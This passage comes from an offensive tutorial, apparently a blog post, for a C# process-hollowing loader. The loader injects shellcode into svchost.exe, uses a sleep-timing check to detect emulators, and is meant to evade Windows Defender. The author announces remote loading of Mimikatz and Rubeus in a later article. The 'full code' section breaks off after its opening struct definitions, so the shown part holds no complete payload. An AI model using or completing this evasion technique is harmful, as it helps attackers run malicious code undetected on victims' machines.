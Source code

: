 This delay function will:

- Capture the current system time and store it as 't1.'
- Pause execution for a set period (e.g., 10 seconds in this case).
- Capture the time again post-pause, subtracting 't1' from it.
- Verify if the subtraction result is less than 9.5 seconds (indicating fast-forwarding). If so, the main function exits, recognizing it's in an emulator. If not, it proceeds assuming it's not in an emulator and resumes execution.

To compile the project, target a 64-bit architecture to ensure compatibility with svchost.exe, a 64-bit process. This compiled code will run the shellcode within svchost.exe.

**Now, our shellcode executes within a trusted process, communicating over the network, effectively evading Windows Defender detection. In an upcoming article, we'll delve into loading our shellcode or other C# tools like rubeus or mimikatz remotely, leveraging Powershell reflection, enabling remote execution without touching the desk.**

## The Full Code for bypassing Windows Defender with all its features.

```csharp
using System;
using System.Runtime.InteropServices;


namespace hollow
{
    public class Program
    {
        [StructLayout(LayoutKind.Sequential, CharSet = CharSet.Ansi)]
        struct STARTUPINFO
        {
            public Int32 cb;
            public IntPtr lpReserved;
            public IntPtr lpDesktop;
            public IntPtr lpTitle;
            public Int32 dwX;
            public Int32 dwY;
            public Int32 dwXSize;
            public Int32 dwYSize;
            public Int32 dwXCountChars;
            public Int32 dwYCountChars;
            public Int32 dwFillAttribute;
            public Int32 dwFlags;
            public Int16 wShowWindow;
            public Int16 cbReserved2;
            public IntPtr lpReserved2;
            public IntPtr hStdInput;
            public IntPtr hStdOutput;
            public IntPtr hStdError;
        }

        [StructLayout(LayoutKind.Sequential)]
        internal struct PROCESS_INFORMATION
        {
            public IntPtr hProcess;
            public IntPtr hThread;
            public int dwProcessId;
            public int dwThreadId;
        }

        [StructLayout(LayoutKind.Sequential)]
        internal struct PROCESS_BASIC_INFORMATION
        {
            public IntPtr Reserved1;
```